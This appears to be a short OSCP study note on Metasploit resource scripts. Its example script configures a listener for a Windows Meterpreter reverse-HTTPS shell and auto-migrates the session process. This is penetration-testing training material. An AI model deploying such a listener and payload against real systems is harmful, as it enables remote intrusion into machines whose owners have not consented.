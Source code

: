 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/11-metasploit-framework/7-automated-resource-scripts/"}
---
```


----------------
- Set global variables in MSF:
```
setg LHOST <ip>

unsetg LHOST
```

- Pre-configured Metasploit resource scripts:
	/usr/share/metasploit-framework/scripts/resource

- Run resource scripts written in Ruby:
```
sudo msfconsole -r script.rc
```

- Example-script:
	- run -z stops from automatically interacting with session
	- ExitOnSession closes listener on opened session
	- migrate module migrates to notepad.exe as default
```
#Set up listener
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443

#Run when session is opened
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```
